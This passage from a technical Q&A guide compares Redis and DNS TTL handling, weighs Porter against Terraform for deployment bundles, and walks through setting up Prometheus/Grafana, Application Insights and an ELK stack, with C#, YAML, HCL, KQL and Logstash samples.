            Console.WriteLine($"TTL: {record.TimeToLive} seconds");
        }
    }
}

// Example DNS zone file with TTL
/*
$TTL 3600  ; Default TTL for zone (1 hour)
@   IN  SOA ns1.example.com. admin.example.com. (
            2024010101  ; Serial
            3600        ; Refresh (1 hour)
            1800        ; Retry (30 minutes)
            604800      ; Expire (1 week)
            86400 )     ; Minimum TTL (1 day)

; A records with different TTLs
@           IN  A     192.168.1.1    ; Uses default TTL (3600)
www   300   IN  A     192.168.1.2    ; 5 minute TTL
api   60    IN  A     192.168.1.3    ; 1 minute TTL (for load balancing)
*/
```

### Key Differences

| Aspect | Redis TTL | DNS TTL |
|--------|-----------|---------|
| **Purpose** | Data expiration | Cache duration |
| **What expires** | The data itself | Cache of the data |
| **After expiration** | Data is deleted | Fresh copy requested |
| **Units** | Seconds (or milliseconds) | Seconds |
| **Typical values** | Seconds to days | Minutes to days |
| **Set by** | Application | DNS administrator |
| **Affects** | Data storage | Network requests |

### Redis TTL Patterns and Use Cases

```csharp
public class RedisPatterns
{
    private readonly IDatabase _db;
    
    // Pattern 1: Session Management
    public async Task<string> GetSessionWithSlidingExpiration(string sessionId)
    {
        var key = $"session:{sessionId}";
        var value = await _db.StringGetAsync(key);
        
        if (!value.IsNullOrEmpty)
        {
            // Reset TTL on access (sliding expiration)
            await _db.KeyExpireAsync(key, TimeSpan.FromMinutes(20));
        }
        
        return value;
    }
    
    // Pattern 2: Rate Limiting
    public async Task<bool> CheckRateLimit(string userId, int limit = 100)
    {
        var key = $"rate:{userId}:{DateTime.UtcNow:yyyyMMddHH}";
        var count = await _db.StringIncrementAsync(key);
        
        if (count == 1)
        {
            // First request this hour, set TTL
            await _db.KeyExpireAsync(key, TimeSpan.FromHours(1));
        }
        
        return count <= limit;
    }
    
    // Pattern 3: Distributed Locks
    public async Task<bool> AcquireLock(string resource, TimeSpan lockDuration)
    {
        var key = $"lock:{resource}";
        var lockId = Guid.NewGuid().ToString();
        
        // Set lock with TTL (auto-release)
        var acquired = await _db.StringSetAsync(
            key, 
            lockId, 
            lockDuration, 
            When.NotExists
        );
        
        return acquired;
    }
    
    // Pattern 4: Cache with Stale-While-Revalidate
    public async Task<T> GetCachedWithStaleWhileRevalidate<T>(
        string key,
        Func<Task<T>> fetchFunc,
        TimeSpan freshDuration,
        TimeSpan staleDuration)
    {
        var dataKey = $"data:{key}";
        var refreshKey = $"refresh:{key}";
        
        var cached = await _db.StringGetAsync(dataKey);
        
        if (cached.IsNullOrEmpty)
        {
            // No cache, fetch and store
            var data = await fetchFunc();
            await _db.StringSetAsync(dataKey, JsonSerializer.Serialize(data), freshDuration + staleDuration);
            await _db.StringSetAsync(refreshKey, "1", freshDuration);
            return data;
        }
        
        // Check if we need to refresh
        var needsRefresh = !await _db.KeyExistsAsync(refreshKey);
        
        if (needsRefresh)
        {
            // Serve stale while refreshing in background
            _ = Task.Run(async () =>
            {
                try
                {
                    var freshData = await fetchFunc();
                    await _db.StringSetAsync(dataKey, JsonSerializer.Serialize(freshData), freshDuration + staleDuration);
                    await _db.StringSetAsync(refreshKey, "1", freshDuration);
                }
                catch
                {
                    // Log error, continue serving stale
                }
            });
        }
        
        return JsonSerializer.Deserialize<T>(cached);
    }
}
```

### Advanced TTL Management

```csharp
public class AdvancedTtlManagement
{
    private readonly IDatabase _db;
    private readonly IServer _server;
    
    // Batch TTL operations
    public async Task SetBatchTtl(Dictionary<string, TimeSpan> keysWithTtl)
    {
        var batch = _db.CreateBatch();
        var tasks = new List<Task>();
        
        foreach (var kvp in keysWithTtl)
        {
            tasks.Add(batch.KeyExpireAsync(kvp.Key, kvp.Value));
        }
        
        batch.Execute();
        await Task.WhenAll(tasks);
    }
    
    // Monitor keys expiring soon
    public async Task<List<string>> GetExpiringKeysSoon(TimeSpan threshold)
    {
        var expiringKeys = new List<string>();
        var now = DateTimeOffset.UtcNow;
        
        await foreach (var key in _server.KeysAsync(pattern: "*"))
        {
            var ttl = await _db.KeyTimeToLiveAsync(key);
            
            if (ttl.HasValue && ttl.Value < threshold)
            {
                expiringKeys.Add(key);
            }
        }
        
        return expiringKeys;
    }
    
    // TTL-based cleanup pattern
    public async Task ImplementTtlCleanupPattern()
    {
        // Use Redis keyspace notifications
        var subscriber = _redis.GetSubscriber();
        
        // Subscribe to expired events
        await subscriber.SubscribeAsync("__keyevent@0__:expired", async (channel, key) =>
        {
            Console.WriteLine($"Key expired: {key}");
            
            // Perform cleanup actions
            if (key.ToString().StartsWith("session:"))
            {
                await CleanupUserSession(key);
            }
            else if (key.ToString().StartsWith("temp:"))
            {
                await CleanupTempData(key);
            }
        });
        
        // Enable keyspace notifications (requires Redis config)
        // CONFIG SET notify-keyspace-events Ex
    }
}
```

### Redis Configuration for TTL

```yaml
# docker-compose.yml with Redis TTL configuration
services:
  redis:
    image: redis:7-alpine
    command: >
      redis-server
      --maxmemory 2gb
      --maxmemory-policy allkeys-lru
      --save ""
      --appendonly no
      --notify-keyspace-events Ex
    environment:
      - REDIS_REPLICATION_MODE=master
    volumes:
      - ./redis.conf:/usr/local/etc/redis/redis.conf
    ports:
      - "6379:6379"
```

### DNS TTL Strategies

```csharp
// DNS TTL configuration strategies
public class DnsTtlStrategies
{
    // Different TTL values for different scenarios
    public static class DnsTtlValues
    {
        // Load balanced services - short TTL for quick failover
        public const int LoadBalancedService = 60; // 1 minute
        
        // API endpoints - moderate TTL
        public const int ApiEndpoint = 300; // 5 minutes
        
        // Static content - long TTL
        public const int StaticContent = 86400; // 24 hours
        
        // Email (MX) records - very long TTL
        public const int EmailRecords = 3600; // 1 hour
        
        // During migrations - very short TTL
        public const int Migration = 30; // 30 seconds
    }
}
```

### Comparison in Distributed Systems

```csharp
public class DistributedSystemPatterns
{
    // Redis TTL for distributed caching
    public async Task<T> GetWithCache<T>(string key, Func<Task<T>> factory)
    {
        var cached = await _cache.GetAsync<T>(key);
        if (cached != null) return cached;
        
        var value = await factory();
        
        // Set with TTL based on data type
        var ttl = key switch
        {
            var k when k.StartsWith("user:") => TimeSpan.FromHours(1),
            var k when k.StartsWith("product:") => TimeSpan.FromMinutes(15),
            var k when k.StartsWith("config:") => TimeSpan.FromDays(1),
            _ => TimeSpan.FromMinutes(5)
        };
        
        await _cache.SetAsync(key, value, ttl);
        return value;
    }
    
    // DNS TTL impact on service discovery
    public class ServiceDiscovery
    {
        // Short DNS TTL allows quick updates but increases DNS load
        // Long DNS TTL reduces DNS load but delays updates
        
        public async Task<string> GetServiceEndpoint(string serviceName)
        {
            // In Kubernetes, DNS TTL is typically 30 seconds
            // This allows relatively quick pod changes to propagate
            
            var dnsResult = await Dns.GetHostAddressesAsync($"{serviceName}.namespace.svc.cluster.local");
            return dnsResult.First().ToString();
        }
    }
}
```

### Best Practices Summary

```yaml
Redis TTL Best Practices:
  - Use appropriate TTL for data type
  - Consider sliding expiration for sessions
  - Monitor memory usage with TTL
  - Use keyspace notifications carefully
  - Set TTL during write operations
  - Implement cache warming strategies

DNS TTL Best Practices:
  - Lower TTL before migrations
  - Balance between caching and flexibility
  - Consider geographic distribution
  - Monitor DNS query rates
  - Use different TTLs for different record types
  - Document TTL strategies

Common Pitfalls:
  - Setting TTL too low (excessive load)
  - Setting TTL too high (stale data)
  - Forgetting to set TTL (memory leaks in Redis)
  - Not considering TTL in failover scenarios
  - Ignoring TTL in capacity planning
```

## Question 38: Should we use Porter vs Terraform? Which is better when? If we use Terraform across the board what do we miss out on?

### Understanding Porter vs Terraform

Porter and Terraform solve different problems in the infrastructure and application deployment space:

### What is Porter?

Porter is a Cloud Native Application Bundle (CNAB) tool that packages applications with their deployment logic, making them portable across different environments and cloud providers.

```yaml
# porter.yaml example
name: collaborative-puzzle
version: 0.1.0
description: "Collaborative Puzzle Application Bundle"

credentials:
  - name: azure_subscription_id
    env: AZURE_SUBSCRIPTION_ID
  - name: kubeconfig
    path: /home/nonroot/.kube/config

parameters:
  - name: database_type
    type: string
    default: "sqlserver"
    enum: ["sqlserver", "postgresql", "mysql"]
  - name: environment
    type: string
    default: "dev"
    enum: ["dev", "staging", "prod"]

mixins:
  - exec
  - kubernetes
  - helm3
  - terraform
  - az

install:
  - terraform:
      description: "Create Azure Infrastructure"
      input: false
      workingDir: ./terraform
      outputs:
        - name: storage_connection_string
        - name: redis_connection_string
  
  - helm3:
      description: "Install application"
      arguments:
        - install
        - "{{ bundle.name }}"
        - ./charts/collaborative-puzzle
      flags:
        namespace: "{{ bundle.parameters.environment }}"
        create-namespace: true
        values:
          - ./values/{{ bundle.parameters.environment }}.yaml
        set:
          - database.type={{ bundle.parameters.database_type }}
          - storage.connectionString={{ bundle.outputs.storage_connection_string }}
          - redis.connectionString={{ bundle.outputs.redis_connection_string }}

upgrade:
  - helm3:
      description: "Upgrade application"
      arguments:
        - upgrade
        - "{{ bundle.name }}"
        - ./charts/collaborative-puzzle

uninstall:
  - helm3:
      description: "Uninstall application"
      arguments:
        - uninstall
        - "{{ bundle.name }}"
  
  - terraform:
      description: "Destroy infrastructure"
      arguments:
        - destroy
        - -auto-approve
```

### What is Terraform?

Terraform is an Infrastructure as Code (IaC) tool that declaratively manages cloud resources and infrastructure.

```hcl
# main.tf example
terraform {
  required_providers {
    azurerm = {
      source  = "hashicorp/azurerm"
      version = "~> 3.0"
    }
  }
}

resource "azurerm_resource_group" "main" {
  name     = "collaborative-puzzle-${var.environment}"
  location = var.location
}

resource "azurerm_kubernetes_cluster" "main" {
  name                = "puzzle-aks-${var.environment}"
  location            = azurerm_resource_group.main.location
  resource_group_name = azurerm_resource_group.main.name
  dns_prefix          = "puzzle-${var.environment}"

  default_node_pool {
    name       = "default"
    node_count = var.node_count
    vm_size    = "Standard_D2_v2"
  }

  identity {
    type = "SystemAssigned"
  }
}

output "kube_config" {
  value     = azurerm_kubernetes_cluster.main.kube_config_raw
  sensitive = true
}
```

### Key Differences

| Aspect | Porter | Terraform |
|--------|--------|-----------|
| **Primary Focus** | Application bundles | Infrastructure resources |
| **Abstraction Level** | Higher (application-centric) | Lower (resource-centric) |
| **Portability** | Very high (CNAB standard) | Medium (provider-specific) |
| **State Management** | Built-in bundle state | External state backend |
| **Use Case** | Packaging complex apps | Managing infrastructure |
| **Learning Curve** | Moderate | Steep for complex scenarios |
| **Community** | Smaller, growing | Large, mature |
| **Multi-tool Support** | Excellent (mixins) | Limited (providers only) |

### When to Use Porter

```yaml
Use Porter When:
  Application Packaging:
    - Need to distribute applications to customers
    - Want a single artifact for complex deployments
    - Require air-gapped installations
    - Building ISV solutions
  
  Multi-Tool Workflows:
    - Combining Terraform + Helm + Scripts
    - Need orchestrated deployment steps
    - Complex pre/post deployment tasks
    - Tool-agnostic bundle format
  
  Portability Requirements:
    - Deploy same app to multiple clouds
    - Customer-managed deployments
    - Marketplace distributions
    - Standardized deployment process

Example Porter Bundle Structure:
  puzzle-bundle/
    ├── porter.yaml
    ├── terraform/
    │   ├── main.tf
    │   └── variables.tf
    ├── helm/
    │   └── collaborative-puzzle/
    ├── scripts/
    │   ├── pre-install.sh
    │   └── post-install.sh
    └── README.md
```

### When to Use Terraform

```yaml
Use Terraform When:
  Infrastructure Management:
    - Managing cloud resources directly
    - Need fine-grained control
    - Infrastructure-first approach
    - GitOps workflows
  
  Team Structure:
    - Dedicated DevOps/Platform teams
    - Infrastructure separated from apps
    - Centralized infrastructure management
    - Compliance requirements
  
  Scale and Complexity:
    - Large-scale infrastructure
    - Multi-region deployments
    - Complex networking requirements
    - Detailed state management

Example Terraform Structure:
  infrastructure/
    ├── environments/
    │   ├── dev/
    │   ├── staging/
    │   └── prod/
    ├── modules/
    │   ├── networking/
    │   ├── compute/
    │   └── database/
    └── global/
```

### What You Miss with Terraform-Only Approach

```yaml
Application Packaging:
  - No standardized bundle format
  - Manual coordination of multiple tools
  - Complex distribution to customers
  - No built-in versioning for app bundles

Workflow Orchestration:
  - Need external tools for complex workflows
  - Manual scripting for pre/post tasks
  - No native support for Helm, kubectl, etc.
  - Limited conditional logic

Portability:
  - Tied to Terraform providers
  - Customer needs Terraform knowledge
  - No offline/air-gapped bundles
  - Provider-specific configurations

Developer Experience:
  - Steeper learning curve for app developers
  - Infrastructure knowledge required
  - No simplified parameters/credentials
  - Complex local development setup
```

### Hybrid Approach: Using Both

```yaml
# Porter bundle that uses Terraform
name: enterprise-app
version: 1.0.0

mixins:
  - terraform
  - helm3
  - kubernetes

install:
  # Step 1: Use Terraform for infrastructure
  - terraform:
      description: "Provision cloud infrastructure"
      workingDir: ./terraform
      vars:
        environment: "{{ bundle.parameters.environment }}"
      outputs:
        - name: cluster_endpoint
        - name: database_connection
  
  # Step 2: Configure Kubernetes
  - kubernetes:
      description: "Create namespaces and secrets"
      manifests:
        - ./k8s/namespace.yaml
        - ./k8s/secrets.yaml
      wait: true
  
  # Step 3: Deploy with Helm
  - helm3:
      description: "Deploy application"
      arguments:
        - install
        - myapp
        - ./charts/myapp
      flags:
        set:
          - database.connection={{ bundle.outputs.database_connection }}
```

### Real-World Comparison

```csharp
// Example: Deploying the same app with both tools

// Porter Approach
public class PorterDeployment
{
    public async Task DeployWithPorter()
    {
        // Single command deploys everything
        var result = await ExecuteCommand("porter install collaborative-puzzle --param environment=prod");
        
        // Porter handles:
        // - Creating infrastructure (via Terraform mixin)
        // - Building and pushing images
        // - Deploying to Kubernetes (via Helm mixin)
        // - Running database migrations (via exec mixin)
        // - Configuring monitoring
    }
}

// Pure Terraform Approach
public class TerraformDeployment
{
    public async Task DeployWithTerraform()
    {
        // Step 1: Infrastructure
        await ExecuteCommand("terraform -chdir=infrastructure apply -auto-approve");
        
        // Step 2: Get outputs
        var outputs = await ExecuteCommand("terraform -chdir=infrastructure output -json");
        
        // Step 3: Build and push images (separate process)
        await ExecuteCommand("docker build -t myapp .");
        await ExecuteCommand("docker push myapp");
        
        // Step 4: Deploy to Kubernetes (separate tool)
        await ExecuteCommand("kubectl apply -f k8s/");
        
        // Step 5: Run migrations (manual process)
        await ExecuteCommand("kubectl exec -it deploy/api -- dotnet ef database update");
        
        // Step 6: Configure monitoring (another tool)
        await ExecuteCommand("helm install prometheus prometheus-community/prometheus");
    }
}
```

### Decision Framework

```yaml
Choose Porter When:
  ✅ Packaging applications for distribution
  ✅ Customer-managed deployments
  ✅ Multi-tool workflows (Terraform + Helm + Scripts)
  ✅ Need standardized bundle format
  ✅ Air-gapped deployments
  ✅ ISV/Marketplace scenarios
  ✅ Simplified parameters for end users

Choose Terraform When:
  ✅ Pure infrastructure management
  ✅ GitOps workflows
  ✅ Large-scale cloud deployments
  ✅ Team has Terraform expertise
  ✅ Need detailed state management
  ✅ Complex provider integrations
  ✅ Infrastructure-as-Code compliance

Use Both When:
  ✅ Porter for app packaging, Terraform for infrastructure
  ✅ Need both portability and infrastructure control
  ✅ Different teams manage infrastructure vs applications
  ✅ Complex enterprise requirements
```

### Migration Path

```bash
# From Terraform to Porter
1. Keep existing Terraform modules
2. Create Porter bundle that uses Terraform mixin
3. Add application deployment steps
4. Package as CNAB bundle

# Example migration
porter create
# Edit porter.yaml to include:
mixins:
  - terraform
  
install:
  - terraform:
      workingDir: ./existing-terraform
      vars:
        var_file: "{{ bundle.parameters.environment }}.tfvars"
```

### Best Practices Summary

```yaml
Porter Best Practices:
  - Use for application-centric deployments
  - Leverage mixins for tool integration
  - Version bundles properly
  - Document parameters clearly
  - Test bundles in all target environments
  - Use Porter registry for distribution

Terraform Best Practices:
  - Use for infrastructure management
  - Modularize configurations
  - Implement proper state management
  - Use workspaces for environments
  - Follow provider best practices
  - Implement policy as code

Combined Approach:
  - Clear separation of concerns
  - Porter owns application lifecycle
  - Terraform owns infrastructure
  - Consistent parameter passing
  - Unified CI/CD pipeline
  - Comprehensive documentation
```

## Question 39: Explain how to setup Grafana on Prometheus data? Azure Monitor on Application Insights? Kibana for either or both or custom logs?

### Setting Up Monitoring Stack

Modern applications require comprehensive monitoring across metrics, logs, and traces. Here's how to set up the major monitoring platforms:

### Grafana with Prometheus

#### 1. Deploy Prometheus and Grafana

```yaml
# docker-compose.yml for local development
version: '3.8'

services:
  prometheus:
    image: prom/prometheus:latest
    container_name: prometheus
    volumes:
      - ./prometheus.yml:/etc/prometheus/prometheus.yml
      - prometheus-data:/prometheus
    command:
      - '--config.file=/etc/prometheus/prometheus.yml'
      - '--storage.tsdb.path=/prometheus'
      - '--web.console.libraries=/usr/share/prometheus/console_libraries'
      - '--web.console.templates=/usr/share/prometheus/consoles'
      - '--web.enable-lifecycle'
    ports:
      - "9090:9090"
    networks:
      - monitoring

  grafana:
    image: grafana/grafana:latest
    container_name: grafana
    volumes:
      - grafana-data:/var/lib/grafana
      - ./grafana/provisioning:/etc/grafana/provisioning
      - ./grafana/dashboards:/var/lib/grafana/dashboards
    environment:
      - GF_SECURITY_ADMIN_USER=admin
      - GF_SECURITY_ADMIN_PASSWORD=admin
      - GF_INSTALL_PLUGINS=grafana-clock-panel,grafana-simple-json-datasource
    ports:
      - "3000:3000"
    networks:
      - monitoring
    depends_on:
      - prometheus

  # Application with metrics endpoint
  puzzle-api:
    build: .
    environment:
      - PROMETHEUS_METRICS_PORT=8080
    ports:
      - "5000:5000"
      - "8080:8080"  # Metrics port
    networks:
      - monitoring

volumes:
  prometheus-data:
  grafana-data:

networks:
  monitoring:
    driver: bridge
```

#### 2. Configure Prometheus

```yaml
# prometheus.yml
global:
  scrape_interval: 15s
  evaluation_interval: 15s
  external_labels:
    monitor: 'puzzle-monitor'
    environment: 'production'

# Alertmanager configuration
alerting:
  alertmanagers:
    - static_configs:
        - targets:
          - alertmanager:9093

# Load rules
rule_files:
  - "alerts/*.yml"

# Scrape configurations
scrape_configs:
  # Prometheus self-monitoring
  - job_name: 'prometheus'
    static_configs:
      - targets: ['localhost:9090']

  # Application metrics
  - job_name: 'puzzle-api'
    static_configs:
      - targets: ['puzzle-api:8080']
    metrics_path: '/metrics'
    scrape_interval: 10s

  # Kubernetes service discovery
  - job_name: 'kubernetes-pods'
    kubernetes_sd_configs:
      - role: pod
    relabel_configs:
      - source_labels: [__meta_kubernetes_pod_annotation_prometheus_io_scrape]
        action: keep
        regex: true
      - source_labels: [__meta_kubernetes_pod_annotation_prometheus_io_path]
        action: replace
        target_label: __metrics_path__
        regex: (.+)
      - source_labels: [__address__, __meta_kubernetes_pod_annotation_prometheus_io_port]
        action: replace
        regex: ([^:]+)(?::\d+)?;(\d+)
        replacement: $1:$2
        target_label: __address__
```

#### 3. Application Metrics Integration

```csharp
// Program.cs - Adding Prometheus metrics to ASP.NET Core
using Prometheus;

var builder = WebApplication.CreateBuilder(args);

// Add services
builder.Services.AddSingleton<IMetrics, MetricsService>();

var app = builder.Build();

// Enable metrics endpoint
app.UseHttpMetrics(); // Track HTTP metrics
app.MapMetrics(); // Expose /metrics endpoint

// Custom metrics
public class MetricsService : IMetrics
{
    private readonly Counter _puzzleCompletedCounter;
    private readonly Histogram _puzzleSolveDuration;
    private readonly Gauge _activePlayers;
    private readonly Summary _pieceMoveDuration;

    public MetricsService()
    {
        _puzzleCompletedCounter = Metrics
            .CreateCounter("puzzle_completed_total", 
                "Total number of puzzles completed",
                new CounterConfiguration
                {
                    LabelNames = new[] { "difficulty", "pieces" }
                });

        _puzzleSolveDuration = Metrics
            .CreateHistogram("puzzle_solve_duration_seconds",
                "Time taken to solve puzzles",
                new HistogramConfiguration
                {
                    LabelNames = new[] { "difficulty" },
                    Buckets = Histogram.LinearBuckets(60, 60, 20) // 1min to 20min
                });

        _activePlayers = Metrics
            .CreateGauge("puzzle_active_players",
                "Number of currently active players");

        _pieceMoveDuration = Metrics
            .CreateSummary("puzzle_piece_move_duration_milliseconds",
                "Time taken to process piece moves",
                new SummaryConfiguration
                {
                    LabelNames = new[] { "action" },
                    MaxAge = TimeSpan.FromMinutes(5),
                    Objectives = new[]
                    {
                        new QuantileEpsilonPair(0.5, 0.05),
                        new QuantileEpsilonPair(0.9, 0.05),
                        new QuantileEpsilonPair(0.99, 0.005)
                    }
                });
    }

    public void RecordPuzzleCompleted(string difficulty, int pieces, double duration)
    {
        _puzzleCompletedCounter.WithLabels(difficulty, pieces.ToString()).Inc();
        _puzzleSolveDuration.WithLabels(difficulty).Observe(duration);
    }

    public void SetActivePlayers(int count)
    {
        _activePlayers.Set(count);
    }

    public IDisposable TrackPieceMove(string action)
    {
        return _pieceMoveDuration.WithLabels(action).NewTimer();
    }
}
```

#### 4. Grafana Data Source Configuration

```yaml
# grafana/provisioning/datasources/prometheus.yml
apiVersion: 1

datasources:
  - name: Prometheus
    type: prometheus
    access: proxy
    url: http://prometheus:9090
    basicAuth: false
    isDefault: true
    editable: true
    jsonData:
      httpMethod: POST
      timeInterval: "15s"
```

#### 5. Creating Grafana Dashboards

```json
// grafana/dashboards/puzzle-metrics.json
{
  "dashboard": {
    "title": "Collaborative Puzzle Metrics",
    "panels": [
      {
        "title": "Active Players",
        "targets": [
          {
            "expr": "puzzle_active_players",
            "refId": "A"
          }
        ],
        "type": "graph",
        "gridPos": { "h": 8, "w": 12, "x": 0, "y": 0 }
      },
      {
        "title": "Puzzle Completion Rate",
        "targets": [
          {
            "expr": "rate(puzzle_completed_total[5m])",
            "refId": "A",
            "legendFormat": "{{difficulty}}"
          }
        ],
        "type": "graph",
        "gridPos": { "h": 8, "w": 12, "x": 12, "y": 0 }
      },
      {
        "title": "HTTP Request Duration (p95)",
        "targets": [
          {
            "expr": "histogram_quantile(0.95, rate(http_request_duration_seconds_bucket[5m]))",
            "refId": "A",
            "legendFormat": "{{method}} {{route}}"
          }
        ],
        "type": "graph",
        "gridPos": { "h": 8, "w": 24, "x": 0, "y": 8 }
      }
    ]
  }
}
```

### Azure Monitor with Application Insights

#### 1. Configure Application Insights

```csharp
// Program.cs
var builder = WebApplication.CreateBuilder(args);

// Add Application Insights
builder.Services.AddApplicationInsightsTelemetry(options =>
{
    options.ConnectionString = builder.Configuration["ApplicationInsights:ConnectionString"];
    options.EnableAdaptiveSampling = true;
    options.EnableHeartbeat = true;
    options.EnablePerformanceCounterCollectionModule = true;
    options.EnableDependencyTrackingTelemetryModule = true;
});

// Custom telemetry
builder.Services.AddSingleton<ITelemetryInitializer, CustomTelemetryInitializer>();
builder.Services.Configure<TelemetryConfiguration>(config =>
{
    config.TelemetryProcessorChainBuilder
        .Use(next => new CustomTelemetryProcessor(next))
        .Build();
});

// Custom telemetry initializer
public class CustomTelemetryInitializer : ITelemetryInitializer
{
    public void Initialize(ITelemetry telemetry)
    {
        telemetry.Context.GlobalProperties["Environment"] = Environment.GetEnvironmentVariable("ASPNETCORE_ENVIRONMENT");
        telemetry.Context.GlobalProperties["Version"] = Assembly.GetExecutingAssembly().GetName().Version?.ToString();
        
        if (telemetry is RequestTelemetry request)
        {
            // Add custom dimensions
            request.Properties["UserId"] = HttpContext.Current?.User?.Identity?.Name;
        }
    }
}
```

#### 2. Track Custom Events and Metrics

```csharp
public class PuzzleService
{
    private readonly TelemetryClient _telemetryClient;
    
    public PuzzleService(TelemetryClient telemetryClient)
    {
        _telemetryClient = telemetryClient;
    }
    
    public async Task<PuzzleSession> StartPuzzle(int puzzleId, string userId)
    {
        using var operation = _telemetryClient.StartOperation<RequestTelemetry>("StartPuzzle");
        
        try
        {
            var session = await CreateSession(puzzleId, userId);
            
            // Track custom event
            _telemetryClient.TrackEvent("PuzzleStarted", new Dictionary<string, string>
            {
                ["PuzzleId"] = puzzleId.ToString(),
                ["UserId"] = userId,
                ["Difficulty"] = session.Difficulty
            });
            
            // Track custom metric
            _telemetryClient.TrackMetric("ActivePuzzleSessions", GetActiveSessionCount());
            
            operation.Telemetry.Success = true;
            return session;
        }
        catch (Exception ex)
        {
            _telemetryClient.TrackException(ex);
            operation.Telemetry.Success = false;
            throw;
        }
    }
    
    // Track dependencies
    public async Task<bool> ValidateMove(PieceMove move)
    {
        using var dependency = _telemetryClient.StartOperation<DependencyTelemetry>("Redis:ValidateMove");
        dependency.Telemetry.Type = "Redis";
        dependency.Telemetry.Target = "puzzle-redis";
        
        try
        {
            var result = await _redis.ValidateMoveAsync(move);
            dependency.Telemetry.Success = true;
            return result;
        }
        catch (Exception ex)
        {
            dependency.Telemetry.Success = false;
            throw;
        }
    }
}
```

#### 3. Azure Monitor Queries (KQL)

```kql
// Top failing requests
requests
| where timestamp > ago(1h)
| where success == false
| summarize failureCount = count() by name, resultCode
| order by failureCount desc
| take 10

// Performance analysis
requests
| where timestamp > ago(1h)
| summarize 
    avg_duration = avg(duration),
    p95_duration = percentile(duration, 95),
    p99_duration = percentile(duration, 99)
    by bin(timestamp, 5m), name
| render timechart

// Custom events analysis
customEvents
| where timestamp > ago(24h)
| where name == "PuzzleCompleted"
| extend difficulty = tostring(customDimensions.Difficulty)
| summarize completions = count() by difficulty, bin(timestamp, 1h)
| render columnchart

// Dependency performance
dependencies
| where timestamp > ago(1h)
| summarize 
    avg_duration = avg(duration),
    failure_rate = countif(success == false) * 100.0 / count()
    by type, target
| order by avg_duration desc
```

#### 4. Create Azure Dashboard

```json
{
  "name": "Puzzle Application Dashboard",
  "tiles": [
    {
      "type": "Microsoft.Common/MetricsChart",
      "settings": {
        "title": "Request Rate",
        "query": "requests | summarize count() by bin(timestamp, 5m)",
        "timespan": "PT1H"
      }
    },
    {
      "type": "Microsoft.Common/MetricsChart",
      "settings": {
        "title": "Response Time (p95)",
        "query": "requests | summarize percentile(duration, 95) by bin(timestamp, 5m)",
        "timespan": "PT1H"
      }
    }
  ]
}
```

### Kibana with Elasticsearch

#### 1. Deploy ELK Stack

```yaml
# docker-compose-elk.yml
version: '3.8'

services:
  elasticsearch:
    image: docker.elastic.co/elasticsearch/elasticsearch:8.11.0
    container_name: elasticsearch
    environment:
      - discovery.type=single-node
      - ES_JAVA_OPTS=-Xms512m -Xmx512m
      - xpack.security.enabled=false
    volumes:
      - es-data:/usr/share/elasticsearch/data
    ports:
      - "9200:9200"
    networks:
      - elk

  logstash:
    image: docker.elastic.co/logstash/logstash:8.11.0
    container_name: logstash
    volumes:
      - ./logstash/pipeline:/usr/share/logstash/pipeline
      - ./logstash/config/logstash.yml:/usr/share/logstash/config/logstash.yml
    ports:
      - "5044:5044"  # Beats
      - "5000:5000"  # TCP input
      - "9600:9600"  # Monitoring
    environment:
      - LS_JAVA_OPTS=-Xmx256m -Xms256m
    networks:
      - elk
    depends_on:
      - elasticsearch

  kibana:
    image: docker.elastic.co/kibana/kibana:8.11.0
    container_name: kibana
    environment:
      - ELASTICSEARCH_HOSTS=http://elasticsearch:9200
    ports:
      - "5601:5601"
    networks:
      - elk
    depends_on:
      - elasticsearch

volumes:
  es-data:

networks:
  elk:
    driver: bridge
```

#### 2. Configure Logstash Pipeline

```ruby
# logstash/pipeline/logstash.conf
input {
  # Application logs via TCP
  tcp {
    port => 5000
    codec => json_lines
  }
  
  # Filebeat input
  beats {
    port => 5044
  }
  
  # Prometheus metrics (optional)
  http_poller {
    urls => {
      prometheus => "http://prometheus:9090/api/v1/query"
    }
    request_timeout => 60
    schedule => { every => "30s" }
    codec => "json"
    metadata_target => "http_poller_metadata"
  }
}

filter {
  # Parse application logs
  if [type] == "application" {
    json {
      source => "message"
    }
    
    # Extract custom fields
    mutate {
      add_field => {
        "application" => "%{[Properties][Application]}"
        "environment" => "%{[Properties][Environment]}"
        "correlation_id" => "%{[Properties][CorrelationId]}"
      }
    }
    
    # Parse timestamp
    date {
      match => [ "Timestamp", "ISO8601" ]
      target => "@timestamp"
    }
  }
  
  # Parse Prometheus metrics
  if [http_poller_metadata][name] == "prometheus" {
    split {
      field => "[data][result]"
    }
    
    mutate {
      add_field => {
        "metric_name" => "%{[data][result][metric][__name__]}"
        "metric_value" => "%{[data][result][value][1]}"
      }
    }
  }
}

output {
  elasticsearch {
    hosts => ["elasticsearch:9200"]
    index => "puzzle-%{type}-%{+YYYY.MM.dd}"
  }
  
  # Debug output
  stdout {
    codec => rubydebug
  }
}
```

#### 3. Application Logging Configuration

```csharp
// Configure Serilog for ELK
Log.Logger = new LoggerConfiguration()
    .MinimumLevel.Information()
    .MinimumLevel.Override("Microsoft", LogEventLevel.Warning)
    .Enrich.FromLogContext()
    .Enrich.WithMachineName()
    .Enrich.WithEnvironmentName()
    .Enrich.WithProperty("Application", "CollaborativePuzzle")
    .WriteTo.Console(new JsonFormatter())
    .WriteTo.Tcp("logstash:5000", new JsonFormatter())
    .WriteTo.Elasticsearch(new ElasticsearchSinkOptions(new Uri("http://elasticsearch:9200"))
    {
        AutoRegisterTemplate = true,
        IndexFormat = "puzzle-{0:yyyy.MM.dd}",
        BatchAction = ElasticOpType.Create,
        NumberOfShards = 1,
        NumberOfReplicas = 0
    })
    .CreateLogger();

// Structured logging examples
public class PuzzleHub : Hub
{
    private readonly ILogger<PuzzleHub> _logger;
    
    public async Task MovePiece(int pieceId, double x, double y)
    {
        using var scope = _logger.BeginScope(new Dictionary<string, object>
        {
            ["UserId"] = Context.UserIdentifier,
            ["SessionId"] = Context.ConnectionId,
            ["Action"] = "MovePiece"
        });
        
        _logger.LogInformation("Piece movement requested {@MoveData}", new
        {
            PieceId = pieceId,
            Position = new { X = x, Y = y },
            Timestamp = DateTime.UtcNow
        });
        
        try
        {
            await ProcessMove(pieceId, x, y);
        }
        catch (Exception ex)
        {
            _logger.LogError(ex, "Failed to move piece {PieceId}", pieceId);
            throw;
        }
    }
}
```

#### 4. Kibana Dashboards and Visualizations

```json
// Kibana saved object for dashboard
{
  "version": "8.11.0",
  "objects": [
    {
      "id": "puzzle-metrics-dashboard",
      "type": "dashboard",
      "attributes": {
        "title": "Puzzle Application Dashboard",
        "panels": [
          {
            "visualization": {
              "title": "Log Levels Over Time",
              "visState": {
                "type": "line",
                "aggs": [
                  {
                    "type": "date_histogram",
